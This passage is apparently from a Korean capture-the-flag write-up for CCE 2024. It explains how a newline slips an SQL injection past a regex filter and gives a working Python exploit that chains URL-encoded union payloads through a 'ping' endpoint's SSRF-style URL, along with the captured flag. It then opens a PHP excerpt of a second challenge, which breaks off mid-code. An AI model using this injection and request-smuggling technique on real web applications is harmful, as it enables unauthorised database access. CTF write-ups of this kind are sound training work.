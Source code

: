 ` union select 1\nasdf`을 입력하면 `select * from events where name = \' union select 1\nasdf\'`가 `select XXX\nasdf\'`로 바뀌게 된다. 개행 뒤에 부분이 필터링 되지 않는 이유는 정규표현식에서 `.*`는 개행을 제외한 모든 문자를 포함하기 때문에 개행을 사용하여 원하는 문자열을 쓸 수 있게 된다.   

다음으로, `select XXX` 쿼리가 실행되면 필드명이 XXX가 되기 때문에 `$row["body"]`에서 비어있는 값이 나오게 된다. 그리하여, `select XXX.* from (asdf) XXX` 이와 같이 쿼리를 구성하여 테이블을 XXX로 별칭을 지어주면 해결할 수 있다. asdf 부분에는 1,sha1(A),sha1(A),flag 형태가 되도록 union을 사용해 추가해주었고, 추가한 데이터를 결과로 반환하도록 쿼리를 작성해주면 된다.                 
        
### Exploit Code     
```python
import requests 

url = "http://52.231.137.27:37221"
# url = "http://localhost:37221/"

x = b" union select 1\n.* from (select * from events "
x += b"union/**/select * from (select 1)a "
x += b"join (select 0x36646364346365323364383865326565393536386261353436633030376336336439313331633162)b "
x += b"join (select 0x36646364346365323364383865326565393536386261353436633030376336336439313331633162)c "
x += b"join (select body from events offset 1 rows fetch next 1 rows only)d offset 3 rows) XXX;-- -"

sql = ''
for i in range(len(x)):
    sql += '%%%02x' % (x[i])

r = requests.get(
    f"{url}", 
    params={
        "action": "ping",
        "arg": f"http://localhost:80\@.cce.cstec.kr|?action=db_show_event_detail&db_arg_event_name={sql}&db_arg_writer=A&db_arg_password=A",
    }
)
print(r.text)
```
       
### Flag    
cce2024{0fc77f746f6d6382d3efea1dfe6c0ae33b9ef655c6fa4546}    
      
<a id="Advanced-Login-System">Advanced Login System</a>         

# Advanced Login System          
     
문제를 출제하신 @as3617 분께서 올려주신 Write-Up을 참고하여 작성하였습니다. 

## index.php
```php
<?php

    session_start();
    require_once "lib.php";
    require_once "config/dbconn.php";

    if ($_SESSION["level"] > 900 && $_SESSION["username"] === "admin") {
        if ($_GET['mode'] === "debug_mode") {
            debug($_GET["debug"]);
        }
    } else if ($_SESSION["level"] == 1)  {
        session_write("level",2);
    } else {
```